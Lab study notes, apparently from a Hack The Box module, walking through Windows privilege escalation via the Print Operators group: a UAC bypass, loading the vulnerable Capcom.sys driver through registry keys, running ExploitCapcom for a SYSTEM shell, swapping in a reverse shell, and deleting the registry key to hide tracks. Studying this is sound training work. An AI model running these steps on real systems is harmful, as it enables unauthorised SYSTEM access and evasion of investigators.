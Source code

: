 # Print Operators

This group grants its members `SeLoadDriverPrivilege` Which have rights to

* manage, create, share, and delete printers connected to a DC
* log on locally to a DC and shut it down

\*\*This is privilege is not visible to unelevated context\*\*

**Confirming Privileges**

```cmd-session
C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name           Description                          State
======================== =================================    =======
SeIncreaseQuotaPrivilege Adjust memory quotas for a process   Disabled
SeChangeNotifyPrivilege  Bypass traverse checking             Enabled
SeShutdownPrivilege      Shut down the system                 Disabled
```

we will need to bypass UAC using [UACMe](https://github.com/hfiref0x/UACME) and then check the privilege again.

{% embed url="https://github.com/hfiref0x/UACME" %}
If had free time then go there and try to compile the binaries.
{% endembed %}

**Checking Privileges Again**

```cmd-session
C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================  ==========
SeMachineAccountPrivilege     Add workstations to domain           Disabled
SeLoadDriverPrivilege         Load and unload device drivers       Disabled
SeShutdownPrivilege           Shut down the system			       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
```

the driver `Capcom.sys` allow any user to execute shellcode with SYSTEM privileges.

{% embed url="https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp" %}
We can use this tool to load the driver
{% endembed %}

pasting over the includes below.

```c
#include <windows.h>
#include <assert.h>
#include <winternl.h>
#include <sddl.h>
#include <stdio.h>
#include "tchar.h"
```

**Compile with cl.exe**

```cmd-session
C:\Users\mrb3n\Desktop\Print Operators>cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp

Microsoft (R) C/C++ Optimizing Compiler Version 19.28.29913 for x86
Copyright (C) Microsoft Corporation.  All rights reserved.

EnableSeLoadDriverPrivilege.cpp
Microsoft (R) Incremental Linker Version 14.28.29913.0
Copyright (C) Microsoft Corporation.  All rights reserved.

/out:EnableSeLoadDriverPrivilege.exe
EnableSeLoadDriverPrivilege.obj
```

**Add Reference to Driver**

{% embed url="https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys" %}
Download this driver and save it to C:\temp
{% endembed %}

Add a reference to this driver under our HKEY\_CURRENT\_USER tree.

```cmd-session
C:\htb> reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\temp\Capcom.sys"

The operation completed successfully.


C:\htb> reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1

The operation completed successfully.
```

**Verify Driver is not Loaded**

```powershell-session
PS C:\htb> .\DriverView.exe /stext drivers.txt
PS C:\htb> cat drivers.txt | Select-String -pattern Capcom
```

**Verify Privilege is Enabled**

```cmd-session
C:\htb> EnableSeLoadDriverPrivilege.exe

whoami:
INLANEFREIGHT0\printsvc

whoami /priv
SeMachineAccountPrivilege        Disabled
SeLoadDriverPrivilege            Enabled
SeShutdownPrivilege              Disabled
SeChangeNotifyPrivilege          Enabled by default
SeIncreaseWorkingSetPrivilege    Disabled
NTSTATUS: 00000000, WinError: 0
```

**Verify Capcom Driver is Listed**

```powershell-session
PS C:\htb> .\DriverView.exe /stext drivers.txt
PS C:\htb> cat drivers.txt | Select-String -pattern Capcom

Driver Name           : Capcom.sys
Filename              : C:\Tools\Capcom.sys
```

**Use ExploitCapcom Tool to Escalate Privileges**

```powershell-session
PS C:\htb> .\ExploitCapcom.exe

[*] Capcom.sys exploit
[*] Capcom.sys handle was obained as 0000000000000070
[*] Shellcode was placed at 0000024822A50008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
```

{% embed url="https://github.com/tandasat/ExploitCapcom" %}

### Alternate Exploitation - No GUI

Modify ExploitCapcom.cpp before compiling. Edit line 292 and replace `C:\\Windows\\system32\\cmd.exe"` with generated reverse shell from msfvenom.

```c
// Launches a command shell process
static bool LaunchShell()
{
    TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
    if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
    return true;
}
```

```c
 TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
```

### Automating the Steps

```cmd-session
C:\htb> EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys

[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-454284637-3659702366-2958135535-1103\System\CurrentControlSet\Capcom
NTSTATUS: c000010e, WinError: 0
```

### Clean-up

**Removing Registry Key**

We can cover our tracks a bit by deleting the registry key added earlier.

```cmd-session
C:\htb> reg delete HKCU\System\CurrentControlSet\Capcom

Permanently delete the registry key HKEY_CURRENT_USER\System\CurrentControlSet\Capcom (Yes/No)? Yes

The operation completed successfully.
```

## Assessment

**Follow the steps in this section to escalate privileges to SYSTEM, and submit the contents of the flag.txt file on administrator's Desktop. Necessary tools for both methods can be found in the C:\Tools directory, or you can practice compiling and uploading them on your own.**

Open cmd as admin, then enable the seImportDriver priv (it's disabled) then add the capcom driver to reg and then verify if it's added. Then run the exploit.
